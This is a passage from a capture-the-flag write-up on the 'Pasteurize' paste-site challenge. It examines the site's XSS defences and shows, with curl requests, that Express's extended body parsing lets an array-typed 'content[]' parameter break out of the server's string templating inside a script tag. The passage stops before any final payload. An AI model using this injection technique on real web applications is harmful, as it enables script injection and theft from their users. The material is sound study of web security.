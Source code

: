There are multiple measures in place to stop XSS attacks:
* Angle brackets are converted to "safe" characters
* Paste contents are sanitized with [DOMPurify](https://github.com/cure53/DOMPurify), preventing inline JavaScript code


## Exfiltration

While it is unclear what "Fix b/1337" refers to exactly, the source code reveals an important security flaw:

```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));

...

const note = req.body.content;
if (!note) {
    return res.status(500).send("Nothing to add");
}
```

The [Express documentation](http://expressjs.com/en/resources/middleware/body-parser.html) explains:
> extended

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded. For more information, please see the qs library.

Pastes can be created with this minimal cURL:
```bash
$ curl -X POST -d "content=Hello+world!" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /b9324f5c-b4e6-4345-9900-7c9ec4131333
```

Empty pastes are blocked:
```bash
$ curl -X POST -d "content=" https://pasteurize.web.ctfcompetition.com/
Nothing to add
```

After reading up on the [qs](https://www.npmjs.com/package/qs) library, we observe the following behavior:
```html
$ curl -X POST -d "content[]=" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /78246dc4-e631-456c-a8e0-eb56f3429330

$ curl https://pasteurize.web.ctfcompetition.com/78246dc4-e631-456c-a8e0-eb56f3429330
...
 <script>
        const note = """";
...
```
